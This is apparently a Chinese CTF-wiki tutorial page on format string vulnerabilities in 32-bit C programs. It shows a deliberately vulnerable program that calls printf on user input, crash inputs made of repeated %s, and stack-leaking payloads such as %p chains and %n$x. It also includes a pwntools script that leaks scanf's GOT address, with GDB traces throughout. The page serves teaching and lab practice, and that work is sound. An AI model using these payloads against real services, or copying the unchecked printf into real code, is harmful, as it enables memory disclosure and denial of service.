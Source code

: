 .. role:: raw-latex(raw)
   :format: latex
..

格式化字符串漏洞利用
====================

其实，在上一部分，我们展示了格式化字符串漏洞的两个利用手段

-  使程序崩溃，因为%s对应的参数地址不合法的概率比较大。
-  查看进程内容，根据%d，%f输出了栈上的内容。

下面我们会对于每一方面进行更加详细的解释。

程序崩溃
========

通常来说，利用格式化字符串漏洞使得程序崩溃是最为简单的利用方式，因为我们只需要输入若干个%s即可

.. code:: text

    %s%s%s%s%s%s%s%s%s%s%s%s%s%s

这是因为栈上不可能每个值都对应了合法的地址，所以总是会有某个地址可以使得程序崩溃。这一利用，虽然攻击者本身似乎并不能控制程序，但是这样却可以造成程序不可用。比如说，如果远程服务有一个格式化字符串漏洞，那么我们就可以攻击其可用性，使服务崩溃，进而使得用户不能够访问。

泄露内存
========

利用格式化字符串漏洞，我们还可以获取我们所想要输出的内容。一般会有如下几种操作

-  泄露栈内存
-  获取某个变量的值
-  获取某个变量对应地址的内存
-  泄露任意地址内存
-  利用GOT表得到libc函数地址，进而获取libc，进而获取其它libc函数地址
-  盲打，dump整个程序，获取有用信息。

泄露栈内存
----------

例如，给定如下程序

.. code:: c

    #include <stdio.h>
    int main() {
      char s[100];
      int a = 1, b = 0x22222222, c = -1;
      scanf("%s", s);
      printf("%08x.%08x.%08x.%s\n", a, b, c, s);
      printf(s);
      return 0;
    }

然后，我们简单编译一下

.. code:: shell

    ➜  leakmemory git:(master) ✗ make           
    gcc -fno-stack-protector -o leakmemory leakmemory.c
    leakmemory.c: In function ‘main’:
    leakmemory.c:7:10: warning: format not a string literal and no format arguments [-Wformat-security]
       printf(s);
              ^

可以看出，编译器指出了我们的程序中没有给出格式化字符串的参数的问题。下面，我们来看一下，如何获取对应的栈内存。

根据C语言的调用规则，格式化字符串函数会根据格式化字符串直接使用栈上自顶向上的变量作为其参数(64位会根据其传参的规则进行获取)。这里我们主要介绍32位。

获取栈变量数值
~~~~~~~~~~~~~~

首先，我们可以利用格式化字符串来获取栈上变量的数值。我们可以试一下，运行结果如下

.. code:: shell

    ➜  leakmemory git:(master) ✗ ./leakmemory
    %08x.%08x.%08x   
    00000001.22222222.ffffffff.%08x.%08x.%08x
    ffcfc400.000000c2.f765a6bb%                           

可以看到，我们确实得到了一些内容。为了更加细致的观察，我们利用GDB来调试一下，以便于验证我们的想法，这里删除了一些不必要的信息，我们只关注代码段以及栈。

首先，启动程序，将断点下载printf函数处

.. code:: shell

    ➜  leakmemory git:(master) ✗ gdb leakmemory
    gef➤  b printf
    Breakpoint 1 at 0x8048330

之后，运行程序

.. code:: shell

    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory 
    %08x.%08x.%08x

此时，程序等待我们的输入，这时我们输入%08x.%08x.%08x，然后敲击回车，是程序继续运行，可以看出程序首先断在了第一次调用printf函数的位置

.. code:: shell

    Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
    28  printf.c: 没有那个文件或目录.
    ────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ──────────────────────────────────────────────[ stack ]────
    ['0xffffccec', 'l8']
    8
    0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20     ← $esp
    0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
    0xffffccf4│+0x08: 0x00000001
    0xffffccf8│+0x0c: 0x22222222
    0xffffccfc│+0x10: 0xffffffff
    0xffffcd00│+0x14: 0xffffcd10  →  "%08x.%08x.%08x"
    0xffffcd04│+0x18: 0xffffcd10  →  "%08x.%08x.%08x"
    0xffffcd08│+0x1c: 0x000000c2

可以看出，此时此时已经进入了printf函数中，栈中第一个变量为返回地址，第二个变量为格式化字符串的地址，第三个变量为a的值，第四个变量为b的值，第五个变量为c的值，第六个变量为我们输入的格式化字符串对应的地址。继续运行程序

.. code:: shell

    gef➤  c
    Continuing.
    00000001.22222222.ffffffff.%08x.%08x.%08x

可以看出，程序确实输出了每一个变量对应的数值，并且断在了下一个printf处

.. code:: shell

    Breakpoint 1, __printf (format=0xffffcd10 "%08x.%08x.%08x") at printf.c:28
    28  in printf.c
    ───────────────────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ────────────────────────────────────────────────────────[ stack ]────
    ['0xffffccfc', 'l8']
    8
    0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
    0xffffcd00│+0x04: 0xffffcd10  →  "%08x.%08x.%08x"
    0xffffcd04│+0x08: 0xffffcd10  →  "%08x.%08x.%08x"
    0xffffcd08│+0x0c: 0x000000c2
    0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
    0xffffcd10│+0x14: "%08x.%08x.%08x"   ← $eax
    0xffffcd14│+0x18: ".%08x.%08x"
    0xffffcd18│+0x1c: "x.%08x"

此时，由于格式化字符串为%x%x%x，所以，程序
会将栈上的0xffffcd04及其之后的数值分别作为第一，第二，第三个参数按照int型进行解析，分别输出。继续运行，我们可以得到如下结果去，确实和想象中的一样。

.. code:: shell

    gef➤  c
    Continuing.
    ffffcd10.000000c2.f7e8b6bb[Inferior 1 (process 57077) exited normally]

当然，我们也可以使用%p来获取数据，如下

.. code:: python

    %p.%p.%p
    00000001.22222222.ffffffff.%p.%p.%p
    0xfff328c0.0xc2.0xf75c46bb%    

这里需要注意的是，并不是每次得到的结果都一样
，因为栈上的数据会因为每次分配的内存页不同而有所不同，这是因为栈是不对内存页做初始化的。

**需要注意的是，我们上面给出的方法，都是依次获得栈中的每个参数，我们有没有办法直接获取栈中被视为第n+1个参数的值呢**\ ？肯定是可以的啦。方法如下

.. code:: text

    %n$x

利用如下的字符串，我们就可以获取到对应的第n+1个参数的数值。为什么这里要说是对应第n+1个参数呢？这是因为格式化参数里面的n指的是该格式化字符串对应的第n个输出参数，那相对于输出函数来说，就是第n+1个参数了。

这里我们再次以gdb调试一下。

.. code:: shell

    ➜  leakmemory git:(master) ✗ gdb leakmemory
    gef➤  b printf
    Breakpoint 1 at 0x8048330
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory 
    %3$x

    Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
    28  printf.c: 没有那个文件或目录.

    ─────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ─────────────────────────────────────────────────────[ stack ]────
    ['0xffffccec', 'l8']
    8
    0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20     ← $esp
    0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
    0xffffccf4│+0x08: 0x00000001
    0xffffccf8│+0x0c: 0x22222222
    0xffffccfc│+0x10: 0xffffffff
    0xffffcd00│+0x14: 0xffffcd10  →  "%3$x"
    0xffffcd04│+0x18: 0xffffcd10  →  "%3$x"
    0xffffcd08│+0x1c: 0x000000c2
    gef➤  c
    Continuing.
    00000001.22222222.ffffffff.%3$x

    Breakpoint 1, __printf (format=0xffffcd10 "%3$x") at printf.c:28
    28  in printf.c
    ─────────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ─────────────────────────────────────────────────────[ stack ]────
    ['0xffffccfc', 'l8']
    8
    0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
    0xffffcd00│+0x04: 0xffffcd10  →  "%3$x"
    0xffffcd04│+0x08: 0xffffcd10  →  "%3$x"
    0xffffcd08│+0x0c: 0x000000c2
    0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
    0xffffcd10│+0x14: "%3$x"     ← $eax
    0xffffcd14│+0x18: 0xffffce00  →  0x00000001
    0xffffcd18│+0x1c: 0x000000e0
    gef➤  c
    Continuing.
    f7e8b6bb[Inferior 1 (process 57442) exited normally]

可以看出，我们确实获得了printf的第4个参数所对应的值f7e8b6bb。

获取栈变量对应字符串
~~~~~~~~~~~~~~~~~~~~

此外，我们还可以获得栈变量对应的字符串，这其实就是需要用到%s了。这里还是使用上面的程序，进行gdb调试，如下

.. code:: shell

    ➜  leakmemory git:(master) ✗ gdb leakmemory
    gef➤  b printf
    Breakpoint 1 at 0x8048330
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory 
    %s

    Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
    28  printf.c: 没有那个文件或目录.
    ────────────────────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ────────────────────────────────────────────────────────[ stack ]────
    ['0xffffccec', 'l8']
    8
    0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20     ← $esp
    0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
    0xffffccf4│+0x08: 0x00000001
    0xffffccf8│+0x0c: 0x22222222
    0xffffccfc│+0x10: 0xffffffff
    0xffffcd00│+0x14: 0xffffcd10  →  0xff007325 ("%s"?)
    0xffffcd04│+0x18: 0xffffcd10  →  0xff007325 ("%s"?)
    0xffffcd08│+0x1c: 0x000000c2
    gef➤  c
    Continuing.
    00000001.22222222.ffffffff.%s

    Breakpoint 1, __printf (format=0xffffcd10 "%s") at printf.c:28
    28  in printf.c
    ──────────────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ──────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffccfc', 'l8']
    8
    0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
    0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?)
    0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?)
    0xffffcd08│+0x0c: 0x000000c2
    0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
    0xffffcd10│+0x14: 0xff007325 ("%s"?)     ← $eax
    0xffffcd14│+0x18: 0xffffce3c  →  0xffffd074  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
    0xffffcd18│+0x1c: 0x000000e0
    gef➤  c
    Continuing.
    %s[Inferior 1 (process 57488) exited normally]

可以看出，在第二次执行printf函数的时候，确实是将0xffffcd04处的变量视为字符串变量，输出了其数值所对应的地址处的字符串。

**当然，并不是所有这样的都会正常运行，如果对应的变量不能够被解析为字符串地址，那么，程序就会直接崩溃。**

此外，我们也可以指定获取栈上第几个参数作为格式化字符串输出，比如我们指定第printf的第3个参数，如下，此时程序就不能够解析，就崩溃了。

.. code:: shell

    ➜  leakmemory git:(master) ✗ ./leakmemory
    %2$s
    00000001.22222222.ffffffff.%2$s
    [1]    57534 segmentation fault (core dumped)  ./leakmemory

**小技巧总结**

    1. 利用%x来获取对应栈的内存，但建议使用%p，可以不用考虑位数的区别。
    2. 利用%s来获取变量所对应地址的内容，只不过有零截断。
    3. 利用%order$x来获取指定参数的值，利用%order$s来获取指定参数对应地址的内容。

泄露任意地址内存
----------------

可以看出，在上面无论是泄露栈上连续的变量，还是说泄露指定的变量值，我们都没能完全控制我们所要泄露的变量的地址。这样的泄露固然有用，可是却不够强力有效。有时候，我们可能会想要泄露某一个libc函数的got表内容，从而得到其地址，进而获取libc版本以及其他函数的地址，这时候，能够完全控制泄露某个指定地址的内存就显得很重要了。那么我们究竟能不能这样做呢？自然也是可以的啦。

我们再仔细回想一下，一般来说，在格式化字符串漏洞中，我们所读取的格式化字符串都是在栈上的。那么也就是说，在调用输出函数的时候，其实，第一个参数的值其实就是该格式化字符串的地址。我们选择上面的某个函数调用为例

.. code:: shell

    Breakpoint 1, __printf (format=0xffffcd10 "%s") at printf.c:28
    28  in printf.c
    ──────────────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ──────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffccfc', 'l8']
    8
    0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
    0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?)
    0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?)
    0xffffcd08│+0x0c: 0x000000c2
    0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
    0xffffcd10│+0x14: 0xff007325 ("%s"?)     ← $eax
    0xffffcd14│+0x18: 0xffffce3c  →  0xffffd074  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
    0xffffcd18│+0x1c: 0x000000e0

可以看出在栈上的第二个变量就是我们的格式化字符串地址0xffffcd10，同时该地址存储的也确实是是"%s"格式化字符串内容。

那么由于我们可以控制该格式化字符串，如果我们知道该格式化字符串在输出函数调用时是第几个参数，这里假设该格式化字符串相对函数调用为第k个参数。那我们就可以通过如下的方式来获取某个指定地址addr的内容。

::

    addr%k$s

    注：
    在这里，如果格式化字符串在栈上，那么我们就一定确定格式化字符串的相对偏移，这是因为在函数调用的时候栈指针至少低于格式化字符串地址8字节或者16字节。

下面就是如何确定该格式化字符串为第几个参数的问题了，我们可以通过如下方式确定

.. code:: text

    [tag]%p%p%p%p%p%p...

一般来说，我们会重复某个字符的机器字长来作为tag，而后面会跟上若干个%p来输出栈上的内容，如果内容与我们前面的tag重复了，那么我们就可以有很大把握说明该地址就是格式化字符串的地址，之所以说是有很大把握，这是因为不排除栈上有一些临时变量也是该数值。一般情况下，极其少见，我们也可以更换其他字符进行尝试，进行再次确认。这里我们利用字符'A'作为特定字符，同时还是利用之前编译好的程序，如下

.. code:: shell

    ➜  leakmemory git:(master) ✗ ./leakmemory
    AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
    00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
    AAAA0xffaab1600xc20xf76146bb0x414141410x702570250x702570250x702570250x702570250x702570250x702570250x702570250x70250xffaab2240xf77360000xaec7% 

由0x41414141处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第5个参数，但是是格式化字符串的第4个参数。我们可以来测试一下

.. code:: shell

    ➜  leakmemory git:(master) ✗ ./leakmemory
    %4$s
    00000001.22222222.ffffffff.%4$s
    [1]    61439 segmentation fault (core dumped)  ./leakmemory

可以看出，我们的程序崩溃了，为什么呢？这是因为我们试图将该格式化字符串所对应的值作为地址进行解析，但是显然该值没有办法作为一个合法的地址被解析，，所以程序就崩溃了。具体的可以参考下面的调试。

.. code:: shell

     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ───────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffcd0c', 'l8']
    8
    0xffffcd0c│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
    0xffffcd10│+0x04: 0xffffcd20  →  "%4$s"
    0xffffcd14│+0x08: 0xffffcd20  →  "%4$s"
    0xffffcd18│+0x0c: 0x000000c2
    0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
    0xffffcd20│+0x14: "%4$s"     ← $eax
    0xffffcd24│+0x18: 0xffffce00  →  0x00000000
    0xffffcd28│+0x1c: 0x000000e0
    ───────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0xf7e44670 → Name: __printf(format=0xffffcd20 "%4$s")
    [#1] 0x80484ce → Name: main()
    ────────────────────────────────────────────────────────────────────────────────
    gef➤  help x/
    Examine memory: x/FMT ADDRESS.
    ADDRESS is an expression for the memory address to examine.
    FMT is a repeat count followed by a format letter and a size letter.
    Format letters are o(octal), x(hex), d(decimal), u(unsigned decimal),
      t(binary), f(float), a(address), i(instruction), c(char), s(string)
      and z(hex, zero padded on the left).
    Size letters are b(byte), h(halfword), w(word), g(giant, 8 bytes).
    The specified number of objects of the specified size are printed
    according to the format.

    Defaults for format and size letters are those previously used.
    Default count is 1.  Default address is following last thing printed
    with this command or "print".
    gef➤  x/x 0xffffcd20
    0xffffcd20: 0x73243425
    gef➤  vmmap 
    Start      End        Offset     Perm Path
    0x08048000 0x08049000 0x00000000 r-x /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
    0x08049000 0x0804a000 0x00000000 r-- /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
    0x0804a000 0x0804b000 0x00001000 rw- /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
    0x0804b000 0x0806c000 0x00000000 rw- [heap]
    0xf7dfb000 0xf7fab000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
    0xf7fab000 0xf7fad000 0x001af000 r-- /lib/i386-linux-gnu/libc-2.23.so
    0xf7fad000 0xf7fae000 0x001b1000 rw- /lib/i386-linux-gnu/libc-2.23.so
    0xf7fae000 0xf7fb1000 0x00000000 rw- 
    0xf7fd3000 0xf7fd5000 0x00000000 rw- 
    0xf7fd5000 0xf7fd7000 0x00000000 r-- [vvar]
    0xf7fd7000 0xf7fd9000 0x00000000 r-x [vdso]
    0xf7fd9000 0xf7ffb000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
    0xf7ffb000 0xf7ffc000 0x00000000 rw- 
    0xf7ffc000 0xf7ffd000 0x00022000 r-- /lib/i386-linux-gnu/ld-2.23.so
    0xf7ffd000 0xf7ffe000 0x00023000 rw- /lib/i386-linux-gnu/ld-2.23.so
    0xffedd000 0xffffe000 0x00000000 rw- [stack]
    gef➤  x/x 0x73243425
    0x73243425: Cannot access memory at address 0x73243425

显然0xffffcd20处所对应的格式化字符串所对应的变量值0x73243425并不能够被改程序访问，所以程序就自然崩溃了。

那么如果我们设置一个可访问的地址呢？比如说scanf@got，结果会怎么样呢？应该自然是输出scanf对应的地址了。我们不妨来试一下。

首先，获取scanf@got的地址，如下

    这里之所以没有使用printf函数，是因为scanf函数会对0a，0b，0c，00等字符有一些奇怪的处理，，导致无法正常读入，，感兴趣的可以试试。。。。

.. code:: shell

    gef➤  got

    /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory：     文件格式 elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE 
    08049ffc R_386_GLOB_DAT    __gmon_start__
    0804a00c R_386_JUMP_SLOT   printf@GLIBC_2.0
    0804a010 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
    0804a014 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7

下面我们利用pwntools构造payload如下

.. code:: python

    from pwn import *
    sh = process('./leakmemory')
    leakmemory = ELF('./leakmemory')
    __isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
    print hex(__isoc99_scanf_got)
    payload = p32(__isoc99_scanf_got) + '%4$s'
    print payload
    gdb.attach(sh)
    sh.sendline(payload)
    sh.recvuntil('%4$s\n')
    print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
    sh.interactive()

其中，我们使用gdb.attach(sh)来进行调试。当我们运行到第二个printf函数的时候(记得下断点)，可以看到我们的第四个参数确实指向我们的scanf的地址，这里输出

.. code:: python

     → 0xf7615670 <printf+0>       call   0xf76ebb09 <__x86.get_pc_thunk.ax>
       ↳  0xf76ebb09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf76ebb0c <__x86.get_pc_thunk.ax+3> ret    
          0xf76ebb0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf76ebb10 <__x86.get_pc_thunk.dx+3> ret    
    ───────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffbbf8dc', 'l8']
    8
    0xffbbf8dc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
    0xffbbf8e0│+0x04: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
    0xffbbf8e4│+0x08: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
    0xffbbf8e8│+0x0c: 0x000000c2
    0xffbbf8ec│+0x10: 0xf765c6bb  →  <handle_intel+107> add esp, 0x10
    0xffbbf8f0│+0x14: 0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp  ← $eax
    0xffbbf8f4│+0x18: "%4$s"
    0xffbbf8f8│+0x1c: 0x00000000

同时，在我们运行的terminal下

.. code:: python

    ➜  leakmemory git:(master) ✗ python exploit.py
    [+] Starting local process './leakmemory': pid 65363
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    0x804a014
    \x14\xa0\x0%4$s
    [*] running in new terminal: /usr/bin/gdb -q  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory" 65363
    [+] Waiting for debugger: Done
    0xf76280c0
    [*] Switching to interactive mode
    [*] Process './leakmemory' stopped with exit code 0 (pid 65363)
    [*] Got EOF while reading in interactiv

我们确实得到了scanf的地址。

但是，并不是说所有的偏移机器字长的整数倍，可以让我们直接相应参数来获取，有时候，我们需要对我们输入的格式化字符串进行填充，来使得我们想要打印的地址内容的地址位于机器字长整数倍的地址处，一般来说，类似于下面的这个样子。

.. code:: text

    [padding][addr]

注意

